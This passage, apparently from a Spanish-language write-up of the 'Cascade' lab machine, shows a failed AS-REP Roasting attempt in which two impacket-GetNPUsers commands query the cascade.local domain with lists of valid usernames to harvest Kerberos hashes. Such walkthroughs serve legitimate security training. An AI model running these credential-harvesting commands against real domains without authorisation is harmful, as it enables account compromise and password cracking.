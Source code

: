 <figure><img src="../../../../../.gitbook/assets/1239_vmware_6JzfSLAWdX.png" alt="" width="518"><figcaption></figcaption></figure>

### AS-REP Roasting Attack (GetNPUsers) - \[FAILED]

Debido que disponemos de una gran lista de usuarios válidos, procederemos a intentar efectuar un **AS-REP Roasting Attack** para intentar obtener un Ticket Granting Ticket (TGT), pero no obtenemos resultado.

{% code overflow="wrap" %}
```bash
impacket-GetNPUsers -no-pass -usersfile users.txt cascade.local/ 2>/dev/null

impacket-GetNPUsers -no-pass -usersfile valid_domain_users.txt cascade.local/ 2>/dev/null
```
{% endcode %}
